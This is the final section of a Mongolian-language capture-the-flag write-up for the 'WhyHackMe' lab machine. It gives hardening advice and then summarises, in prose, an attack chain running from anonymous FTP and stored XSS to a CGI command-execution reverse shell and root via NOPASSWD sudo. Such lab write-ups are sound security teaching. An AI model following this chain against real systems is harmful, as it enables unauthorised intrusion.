







## АЮУЛГҮЙ БАЙДЛЫГ САЙЖРУУЛАХ

Ийм төрлийн халдлагаас урьдчилан сэргийлэхийн тулд FTP үйлчилгээнд Anonymous Access тохиргоог шаардлагагүй тохиолдолд бүрэн идэвхгүй болгох, шаардлагатай тохиолдолд зөвхөн унших эрхтэй, хязгаарлагдмал директор ашиглах хэрэгтэй. Мөн нууц мэдээлэл болон хэрэглэгчийн нэвтрэх мэдээллийг веб серверийн нийтэд хандах боломжтой директоруудад байрлуулахгүй байх шаардлагатай.

Веб програмын хувьд хэрэглэгчээс ирсэн бүх өгөгдлийг сервер талд шалгаж, HTML контекстэд буцаан харуулахдаа зөв escape хийх хэрэгтэй. JavaScript кодыг хэрэглэгчийн оруулсан өгөгдөлтэй шууд холбож ажиллуулахгүй байх, Content Security Policy буюу CSP бодлогыг хэрэгжүүлэх нь XSS халдлагын эрсдэлийг бууруулна.

Apache CGI скриптүүдэд шаардлагагүй системийн команд ажиллуулах боломж олгохгүй байх, хэрэглэгчийн хүсэлтээс ирсэн параметрүүдийг найдвартай шалгах, командын оролтыг shell-д шууд дамжуулахгүй байх нь чухал. Мөн CGI скриптүүдийг тусгай хязгаарлагдмал хэрэглэгчийн эрхээр ажиллуулах шаардлагатай.

TLS хувийн түлхүүрийг зөвхөн шаардлагатай администратор унших эрхтэй байхаар хамгаалж, нууц түлхүүрийн хуулбарыг PCAP болон бусад шинжилгээний файлуудтай хамт хяналтгүй хадгалахгүй байх хэрэгтэй. Харин firewall-ийн дүрмийг зөвхөн эрх бүхий администратор өөрчлөх боломжтой болгож, бүх дүрмийн өөрчлөлтийг бүртгэж хянах шаардлагатай.

Хамгийн чухал нь `www-data` зэрэг веб серверийн хэрэглэгчид `NOPASSWD: ALL` эрх олгохгүй байх хэрэгтэй. Системийн хэрэглэгч бүрт зөвхөн ажлаа гүйцэтгэхэд шаардлагатай хамгийн бага эрхийг олгох зарчмыг хэрэгжүүлэх нь privilege escalation халдлагаас хамгаалах үндсэн арга юм.

##  ДҮГНЭЛТ

WhyHackMe виртуал машинд хийсэн нэвтрэлтийн туршилтаар системийн аюулгүй байдалд сөргөөр нөлөөлж болох хэд хэдэн эмзэг байдал болон буруу тохиргоог илрүүлж, тэдгээрийн уялдаа холбоог практик орчинд судаллаа. Туршилтын эхний шатанд FTP Anonymous Access тохиргоог ашиглан серверийн мэдээлэл цуглуулж, веб серверийн директор болон файлуудыг илрүүлсэн. Үүний дараа хэрэглэгчийн нэрийн талбарт Stored XSS эмзэг байдлыг баталгаажуулж, веб програмын хамгаалалт хангалтгүй байгааг тогтоосон.

Цаашлаад олж авсан мэдээллийг ашиглан SSH үйлчилгээнд `jack` хэрэглэгчээр нэвтэрч, системийн firewall болон Apache серверийн тохиргоог судалсан. Wireshark хэрэгслээр PCAP файлыг задлан шинжлэх явцад TLS шифрлэлттэй HTTP хүсэлтийн агуулгыг сэргээж, Apache CGI скриптээр дамжуулан системийн команд ажиллуулах боломж байгааг илрүүлсэн. Үүний дараа Kali Linux дээр Netcat listener ажиллуулж, зорилтот машинаас Reverse Shell холболт үүсгэн `www-data` хэрэглэгчийн эрхтэйгээр системд нэвтэрсэн.

Эцсийн шатанд `sudo -l` командаар `www-data` хэрэглэгчид `NOPASSWD: ALL` эрх олгосон ноцтой буруу тохиргоог илрүүлсэн. Энэ тохиргоог ашиглан root хэрэглэгчийн эрхэд шилжиж, `/root/root.txt` файлыг уншсанаар Root flag-ийг амжилттай авсан.

Энэхүү даалгавар нь нэг системд олон төрлийн эмзэг байдал зэрэг оршиж болох бөгөөд тэдгээрийг дараалалтай ашиглахад энгийн хэрэглэгчийн түвшнээс системийн бүрэн удирдлагын эрх хүртэл хүрэх эрсдэлтэйг харууллаа. Мөн нэвтрэлтийн туршилтын явцад мэдээлэл цуглуулах, эмзэг байдал баталгаажуулах, сүлжээний траффик шинжлэх, эрхийн түвшин нэмэгдүүлэх зэрэг ажиллагааг зөв дарааллаар гүйцэтгэх нь чухал болохыг практик байдлаар ойлгож авсан.